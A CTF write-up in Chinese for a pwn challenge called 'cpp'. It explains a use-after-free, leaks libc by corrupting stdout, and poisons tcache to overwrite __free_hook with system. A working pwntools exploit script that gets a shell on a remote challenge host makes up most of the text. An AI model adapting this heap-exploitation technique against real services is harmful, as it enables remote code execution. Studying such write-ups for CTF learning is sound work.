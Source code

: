 # cpp

**Second Blood**

比较明显的UAF漏洞，控制好堆布局，利用修改unsorted chunk的fd低地址指向_IO_write_ptr，修改其末位为"\xF0"即可，或者修改stdout的flags位和_IO_write_base，前者只需要用0x20的chunk即可设置，布局比较简单

leak后再次tcache attck修改&\_\_free\_hook-8位置为"/bin/sh\x00"+system_addr即可在edit触发free时getshell

### EXP:
```
from pwn import *
context.log_level="debug"

def add():
    p.sendafter("ye\n","C")

def edit(note):
    p.sendafter("ye\n","W")
    p.sendline(note)

def delete():
    p.sendafter("ye\n","D")

for i in range(100):
  try:  
    p=remote("123.57.4.93",12001)
    #p=process("./cpp")
    add()
    add()
    add()
    edit("a"*0x80)
    for i in range(8):
        delete()
    edit("\x00"*0x18)
    edit("\x00"*0x18)
    edit("\x88\xf7")
    edit("\x88\xf7")
    edit("\x88\xf7")
    delete()
    delete()
    delete()
    delete()
    delete()

    edit("\x00")
    add()
    edit("\xf0")
    edit("\xf0")
    p.recv(5)
    libc=u64(p.recv(6)+"\x00\x00")+ 0x7ffff7443000-0x7ffff78308c0
    print hex(libc)

    add()
    edit(p64(libc+0x03ed8e8-0x8))
    edit(p64(libc+0x03ed8e8-0x8))
    edit("/bin/sh\x00"+p64(libc+0x4f4e0))
    #edit("\x00")
    #gdb.attach(p)
    p.interactive()
  except:
    print "fail"
```